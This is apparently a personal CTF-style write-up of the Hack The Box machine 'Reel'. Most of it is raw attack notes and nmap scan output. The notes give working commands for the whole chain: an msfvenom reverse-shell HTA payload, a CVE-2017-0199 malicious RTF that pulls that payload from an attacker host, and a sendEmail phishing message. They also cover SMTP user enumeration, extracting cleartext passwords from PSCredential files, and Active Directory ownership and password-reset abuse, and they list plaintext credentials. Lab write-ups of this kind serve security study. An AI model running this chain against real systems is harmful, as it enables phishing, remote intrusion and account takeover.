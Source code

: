 # Summary



## about target

tip:  10.129.

hostname: Reel

Difficulty:  Hard



## about attack

+ hta phishing. generate hta, msvenom and out-hta.ps1
+ Writeowner, set owner and  resetpassword, exploit
+ WriteDacl on groups, exploit: add user to group
+ bloodhound, check the firest degree object control
+ Pscredential  use, cypher and get cleartext pwd.





**attack note**

```bash
Reel / 10.129.228.124


---- Interesting

htb\tom:1ts-mag1c!!!
administrator:Cr4ckMeIfYouC4n!
---- Enum 
# ftp enum, anonymous login; found files.
ftp $tip

exiftool Windows\ Event\ Forwarding.docx

# smtp enum
##  nmap sc scan, found users.
nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 $tip -oN smtp.nmap

## enum user, recheck.
smtp-user-enum -M VRFY -U /usr/share/seclists/Usernames/Names/names.txt -t $tip

smtp-user-enum -M RCTP -U users.txt -t $ti

---- Foothold
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$kip LPORT=443 -f hta-psh -o msfv.hta

python2 cve-2017-0199_toolkit.py -M gen -w invoice.rtf -u http://10.10.14.90/msfv.hta -t rtf -x 0

sendEmail -f hack01@megabank.com -t nico@megabank.com -u "Invoice Attached" -m "You are overdue payment" -a invoice.rtf -s $tip -v


powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *"

Get-ObjectAcl -SamAccountName clair -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}  

---- System
Set-DomainObjectOwner -identity claire -OwnerIdentity tom

Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword

$cred = ConvertTo-SecureString "Hack01@123" -AsPlainText -force
Set-DomainUserPassword -identity claire -accountpassword $cred
```







# Enum

## nmap scan



```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_05-28-18  11:19PM       <DIR>          documents
22/tcp open  ssh     OpenSSH 7.6 (protocol 2.0)
| ssh-hostkey:
|   2048 8220c3bd16cba29c88871d6c1559eded (RSA)
|   256 232bb80a8c1cf44d8d7e5e6458803345 (ECDSA)
|_  256 ac8bde251db7d838389b9c16bff63fed (ED25519)
25/tcp open  smtp?
| smtp-commands: REEL, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, X11Probe:
|     220 Mail Service ready
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, RTSPRequest:
|     220 Mail Service ready
|     sequence of commands
|     sequence of commands
|   Hello:
|     220 Mail Service ready
|     EHLO Invalid domain address.
|   Help:
|     220 Mail Service ready
|     DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
|   SIPOptions:
|     220 Mail Service ready
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|   TerminalServerCookie:
|     220 Mail Service ready
|_    sequence of commands
```





![image-20221213232538919](./images/image-20221213232538919.png)





# Foothold

## shell nico





![image-20221213234723012](./images/image-20221213234723012.png)



![image-20221213234732346](./images/image-20221213234732346.png)



## shell tom





![image-20221214215056462](./images/image-20221214215056462.png)



# Privesc





## proof

```bash


```



